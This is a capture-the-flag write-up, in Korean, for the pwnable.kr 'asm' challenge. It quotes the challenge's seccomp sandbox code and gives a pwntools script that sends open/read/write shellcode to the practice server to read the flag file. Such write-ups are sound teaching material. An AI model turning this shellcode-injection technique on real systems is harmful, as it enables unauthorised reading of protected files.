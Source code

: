 # [pwnable.kr] asm

> Mommy! I think I know how to make shellcodes
>
> ssh asm@pwnable.kr -p2222 (pw: guest)

## Analysis

![image](https://github.com/user-attachments/assets/7c15b029-f8aa-440c-af79-d92d9f008b09)

```c
/* asm.c */

void sandbox(){
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
    if (ctx == NULL) {
        printf("seccomp error\n");
        exit(0);
    }

    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

    if (seccomp_load(ctx) < 0){
        seccomp_release(ctx);
        printf("seccomp error\n");
        exit(0);
    }
    seccomp_release(ctx);
}
```

`rsp`와 `rip`를 제외한 모든 레지스터가 초기화된 상태에서, `open`, `read`, `write`, `exit`, `exit_group` system call만 사용하여 플래그 파일의 내용을 읽어야 한다.

## Exploit

```python
# ex.py

from pwn import *

context(arch="amd64")

r = remote("pwnable.kr", 9026)

flag_filename = "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"

shellcode = shellcraft.open(flag_filename)
shellcode += shellcraft.read("rax", 0x41414F00, 0x100)
shellcode += shellcraft.write(1, 0x41414F00, 0x100)
shellcode = asm(shellcode)

r.sendafter(b"give me your x64 shellcode: ", shellcode)

r.interactive()
```

![image](https://github.com/user-attachments/assets/48400fc6-0e69-425a-aab6-4fa5719de826)
